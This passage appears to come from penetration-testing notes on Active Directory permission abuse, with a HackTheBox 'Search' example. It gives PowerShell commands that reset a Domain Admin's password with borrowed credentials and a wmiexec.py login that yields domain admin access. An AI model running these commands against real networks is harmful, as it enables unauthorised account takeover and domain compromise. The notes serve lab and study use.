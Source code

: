     $cred = new-object system.management.automation.pscredential $user,$secpass
    ```

Example:

<figure><img src="../.gitbook/assets/Capture (2).PNG" alt=""><figcaption><p>ReadGMSAPassword in BloodHound</p></figcaption></figure>

### GenericWrite/GenericAll/AllExtendedRights

*   Allows an attacker to modify the object in question. In this example, we change the password of a Domain Admin. GenericWrite allows the modification of certain things.

    * HTB Example: _**Search**_

    How-To:

    ```python
    Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!' -force)} -Credential $cred

    #kali:

    wmiexec.py 'search/tristan.davies:Password1234!@search.htb'
    ```

    * Why would you invoke a command on localhost? This is because I am using another user’s credentials.
    * Note: Invoke-Command executes a command on another host.
    * With this, we can obtain domain admin access.
